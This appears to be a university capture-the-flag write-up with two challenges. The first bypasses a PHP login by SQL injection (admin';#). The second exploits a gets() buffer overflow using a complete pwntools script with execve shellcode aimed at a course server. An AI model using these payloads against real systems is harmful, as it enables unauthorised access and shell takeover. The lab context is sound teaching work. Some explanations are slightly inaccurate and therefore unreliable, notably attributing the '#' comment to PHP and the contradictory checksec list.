 # FSI-CTFS: Week #8

## **First Challenge**

**Goal:** Login into the admin account in order to get the flag.

**Website analysis**

We are given the [index.php](Semana8-Desafio1/index.php) file of out website. Let's start by analysing the php code.

```php
if (!empty($_POST)) {

    require_once 'config.php';

    $username = $_POST['username'];
    $password = $_POST['password'];
    
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                            
    if ($result = $conn->query($query)) {
                        
        while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
        $_SESSION['username'] = $data['username'];

        echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
        include "/flag.txt";
        echo "</code>";

        }
    } else {            
        // falhou o login
        echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
    }
}
```

> Pay attention to this line:
```php 
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```
- The query statement is not prepared before being sent to the database! Which means we have a sql injection vulnerability!
- This allows us to exploit the query and access the admin account without the need of a password!

### **Attack**

In order to login into the admin account without a password, all we need to do is remove the password verification from the query. To do that, let's remember that in PHP, to add a comment we use the '#' char.
```php 
# This is a comment in PHP
```
If we insert 'admin';#' in the username field, the password segment of the query will become obsolete!
```php 
$query = "SELECT username FROM user WHERE username = 'admin';#' AND password = '".$password."'";
```
> Let's try it on our vulnerable website! (In the the password field, you can type in anything, as it will be commented out in the PHP code)

![Page](imgs/page1.jpg)

>And then we obtain our flag!

![Flag1](imgs/flag1.jpg)

## **Second Challenge**

**Goal:** Come up with an exploit to the buffer overflow vulnerability on the program running in the CTF server to get shell, in order to get the flag which is located in the working directory.

**Checksec**

- Architecture is x86
- Regions in the memory with RWX permissions
- No Cannary found in the stack
- Stack doesn't have execute permissions (NX -no execute- enabled)
- PIE Enabled - ASLR is enabled

![Terminal screenshot of checksec](imgs/checksec.png)

**Program analysis**

The program enabled ASLR which means now we can't 'hardcode' the memory address we want to overwrite! However, the program prints out the address in which the buffer is located.

**Program**

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

- The vulnerability is present the gets(buffer) function call. This function is known to be very dangerous to use because it is impossible to tell how many characters it will read, without knowing the input in advance.

```
Bugs section of gets man page:

Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```
That means we can cause a **buffer overflow**!

### **Attack**
> Now that we know we have a buffer overflow vulnerability in the gets function, let's figure out what we need to write to the buffer.
- If we want to open a shell, we'll need to write some shellcode into memory and then get our program to execute that shellcode

How can we do that?

We need to overwrite the return addres of the gets function call so it jumps to out shellcode instead! But to that, we need to find what the offset (&buffer - $ebp) is.

> We can achieve that with the help of gdb-peda, which is a Python Exploit Development Assistance for GDB. It add some extra funcionalities to gdb and is very useful to analyse these programs. Find more about it [here](https://github.com/longld/peda).

![Pattern #1](imgs/pattern.jpg)

- We use the pattern function to generate a 120 char pattern to memory to use as input for our program. The goal with this is to try to guess where the return addres is. And as you can see, we got a **SIGSEGV** (Segmentation fault) which means the program crash, which tells us we were able to overwrite our return address and the program wasn't able to exit the gets function as expected. So that means we are a little off on the offset but we now know it is lower that 120.

![Pattern #2](imgs/pattern2.jpg)

- We now use the pattern function to search which tells us that EIP+0 was found at offset: 107
- After testing with offset 107, we found found out it's just off by 1, so the offset is 108

> We now need to build our payload with the help of the following python script:

**Python Scipt**

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:
    p = remote("ctf-fsi.fe.up.pt", 4001)

# -- Shellcode for 32bit i386 -- #
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"

# -- Retrives buffer address from the program output -- #
address = p.recvline_contains(b'Your buffer is')[17:25].decode('utf-8')
print("Buffer address: " + address)

# -- Prepares buffer address for the payload -- #
buffer = bytearray.fromhex(address)
buffer.reverse()

# -- Offset found during code analysis with gdb -- #
offset= 108

# -- Payload Construction -- #
payload = shellcode + b'\x90' * (offset -  len(shellcode)) + buffer

print('Sending Payload...')
p.sendline(payload)
p.interactive()

```

Let's explain the script:
- The shellcode is a shellcode for 32bit system
- The next code segment is used to retrieve our buffer address given by the program
- We then prepare that buffer to use in our payload
- After that, we use the offset we previously found using gdb
- And finally, we construct our payload and send it to the server


> And obtained our second desired flag!

![Terminal print of attack](imgs/flag2.png)
